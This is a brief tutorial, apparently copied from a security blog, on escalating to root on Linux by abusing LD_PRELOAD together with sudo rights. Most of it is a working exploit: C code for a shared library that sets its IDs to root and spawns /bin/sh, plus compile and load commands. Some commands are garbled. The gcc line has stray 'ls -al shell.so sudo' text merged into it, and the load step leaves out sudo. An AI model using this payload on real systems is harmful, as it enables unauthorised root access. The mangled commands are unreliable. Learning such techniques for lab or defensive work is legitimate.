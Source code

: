 LD_PRELOAD is an environment variable that lists shared libraries with functions that override the standard set, just as /etc/ld.so.preload does. These are implemented by the loader /lib/ld-linux.so

Escalation via LD_PRELOAD consists of abusing the Linux preloading functionality by loading a binary that can be run by root, even though we're not, thus escalating our privilege to root.

To exploit such type of vulnerability we need to compromise victim’s machine at once then move to privilege escalation phase. Suppose you successfully login into victim’s machine through ssh now for post exploitation type **sudo -l**

Let’s generate a C-program file inside /tmp directory for example.

```c
#include <stdio.h> 
#include <sys/types.h> 
#include <stdlib.h> 

void _init() 
     { unsetenv("LD_PRELOAD"); 
       setgid(0); 
       setuid(0); 
       system("/bin/sh"); 
    }
```
Let's compile the c program as follow:

```bash
gcc -fPIC -shared -o shell.so shell.c -nostartfiles ls -al shell.so sudo 
```
... and load the c program:
```bash
LD_PRELOAD=/tmp/shell.so find 
```
then check if we are be given the root privilege as follow:
```bash
id 
whoami
```
Source: https://www.hackingarticles.in/linux-privilege-escalation-using-ld_preload/

